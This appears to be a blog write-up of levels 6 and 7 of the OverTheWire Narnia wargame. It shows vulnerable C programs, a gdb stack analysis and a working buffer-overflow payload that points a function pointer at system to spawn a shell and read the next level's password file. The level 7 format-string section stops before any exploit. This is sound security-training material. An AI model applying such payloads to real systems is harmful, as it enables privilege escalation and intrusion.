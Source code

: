```yaml
---
layout: post
title: narnia-writeup-06
excerpt: "Writeup for the Narnia (L06)  wargame on overthewire.org."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / narina](http://www.overthewire.org/wargames/narnia/)

## Level 6 ##

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
        char b1[8], b2[8];
        int  (*fp)(char *)=(int(*)(char *))&puts, i;

        if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

        /* clear environ */
        for(i=0; environ[i] != NULL; i++)
                memset(environ[i], '\0', strlen(environ[i]));
        /* clear argz    */
        for(i=3; argv[i] != NULL; i++)
                memset(argv[i], '\0', strlen(argv[i]));

        strcpy(b1,argv[1]);
        strcpy(b2,argv[2]);
        //if(((unsigned long)fp & 0xff000000) == 0xff000000)
        if(((unsigned long)fp & 0xff000000) == get_sp())
                exit(-1);
        fp(b1);

        exit(1);
}
```

At first glance this is a little more complex. The `int  (*fp)(char *)=(int(*)(char *))&puts, i;` statement ends up doing two things - (1) creating a function pointer to `puts`, and also defining an integer `i`. The environ, and any extra args, are zero'ed out.

The `&` against `fp` excludes it from pointing to a particular address in memory (namely `0xff******`). The call to `fp(b1)` looks like our ticket out of here but it's been defined *after* `b1` and `b2`.
Let's see this through `gdb`.

``` shell
narnia6@narnia:/narnia$ gdb -q narnia6
Reading symbols from narnia6...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x08048559 <+0>:     push   ebp
   0x0804855a <+1>:     mov    ebp,esp
   0x0804855c <+3>:     push   ebx
   0x0804855d <+4>:     and    esp,0xfffffff0
   0x08048560 <+7>:     sub    esp,0x30
   0x08048563 <+10>:    mov    DWORD PTR [esp+0x28],0x80483f0
   0x0804856b <+18>:    cmp    DWORD PTR [ebp+0x8],0x3
...
   0x0804867f <+294>:   mov    DWORD PTR [esp],eax
   0x08048682 <+297>:   call   0x80483e0 <strcpy@plt>
   0x08048687 <+302>:   mov    eax,DWORD PTR [esp+0x28]
   0x0804868b <+306>:   and    eax,0xff000000
   0x08048690 <+311>:   mov    ebx,eax
   0x08048692 <+313>:   call   0x804854d <get_sp>
...
(gdb) br *0x0804868b
Breakpoint 1 at 0x804868b
(gdb) x/bx 0x80483f0
0x80483f0 <puts@plt>:   0xff
```

We break before the `&`, after the `strcpy`. Let's see what the stack looks like then.

``` shell
(gdb) r DDDDDDD fffffff
Starting program: /narnia/narnia6 DDDDDDD fffffff

Breakpoint 1, 0x0804868b in main ()
(gdb) x/14wx $esp
0xffffd6d0:     0xffffd6e8      0xffffd8f5      0x00000021      0x08048712
0xffffd6e0:     0x00000003      0xffffd7a4      0x66666666      0x00666666
0xffffd6f0:     0x44444444      0x00444444      0x080483f0      0x00000003
0xffffd700:     0x080486c0      0xf7fcb000
```
That's interesting - at `0xffffd6f8` is `fp`! Which we can therefore overwrite by overflowing `b1`.

The next question is what to overflow it with. We can't add an address on the stack due to the `&` check. Now if we could get `fp` to point to something like `system`, we might be in business.

It turns out that by importing `stdlib.h`, we're doing exactly that:

``` shell
(gdb) break system
Breakpoint 3 at 0xf7e61e70
```

With this in mind we can craft our payload:

``` shell
narnia6@narnia:/narnia$ ./narnia6 $(python -c 'print "/bin/sh;\x70\x1e\xe6\xf7 fffffff"')
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
*** password ***``
```

## Level 7 """

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int goodfunction();
int hackedfunction();

int vuln(const char *format){
        char buffer[128];
        int (*ptrf)();

        memset(buffer, 0, sizeof(buffer));
        printf("goodfunction() = %p\n", goodfunction);
        printf("hackedfunction() = %p\n\n", hackedfunction);

        ptrf = goodfunction;
        printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

        printf("I guess you want to come to the hackedfunction...\n");
        sleep(2);
        ptrf = goodfunction;

        snprintf(buffer, sizeof buffer, format);

        return ptrf();
}

int main(int argc, char **argv){
        if (argc <= 1){
                fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                exit(-1);
        }
        exit(vuln(argv[1]));
}

int goodfunction(){
        printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
        fflush(stdout);

        return 0;
}

int hackedfunction(){
        printf("Way to go!!!!");
        fflush(stdout);
        system("/bin/sh");

        return 0;
}
```

It looks like the aim is to overwrite what `ptrf` points to. 

``` shell
narnia7@narnia:/narnia$ ./narnia7
Usage: ./narnia7 <buffer>
narnia7@narnia:/narnia$ ./narnia7 a
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd68c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
```
